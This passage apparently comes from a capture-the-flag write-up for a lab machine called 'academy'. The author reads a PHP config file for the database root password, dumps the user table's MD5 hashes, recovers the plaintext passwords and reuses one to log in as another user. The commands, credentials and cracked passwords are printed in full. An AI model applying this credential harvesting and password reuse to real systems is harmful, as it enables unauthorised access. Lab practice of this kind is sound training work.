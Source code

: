 ```bash
www-data@academy:/var/www/html$ cat ./academy/public/config.php 
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
```

Connecting to the local instance of MySQL using the obtained credentials, noticed that there were some users created and their password hashes, that could be reused by one of the existing users of this box.

```bash
$ mysql -u root -p
Password:

mysql> use academy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+---------------------+
| id | username | password                         | roleid | created_at          |
+----+----------+----------------------------------+--------+---------------------+
|  5 | dev      | a317f096a83915a3946fae7b7f035246 |      0 | 2020-08-10 23:36:25 |
| 11 | test8    | 5e40d09fa0529781afd1254a42913847 |      0 | 2020-08-11 00:44:12 |
| 12 | test     | 098f6bcd4621d373cade4e832627b4f6 |      0 | 2020-08-12 21:30:20 |
| 13 | test2    | ad0234829205b9033196ba818f7a872b |      1 | 2020-08-12 21:47:20 |
| 14 | tester   | 098f6bcd4621d373cade4e832627b4f6 |      1 | 2020-08-13 11:51:19 |
+----+----------+----------------------------------+--------+---------------------+
```

After some research, found that these passwords were hashed using MD5 before storing in DB. Searching in some services online, the following passwords were retrieved:

- dev: **mySup3rP4s5w0rd!!**
- test8: **test8**
- test: **test**
- test2: **test2**
- tester: **test**

Now that we have a few passwords, we need to check which user possibly has the user flag. By running the command below, we have identified user **cry0l1t3** as the one we should test the obtained passwords so far:

```bash
www-data@academy:/home$ find /home -type f 2>/dev/null | grep user.txt
/home/cry0l1t3/user.txt
```

On the first try using `mySup3rP4s5w0rd!!` we were able to log in as cry0l1t3 and get the user flag

```bash
cry0l1t3@academy:~$ cat user.txt 
<redacted>
```
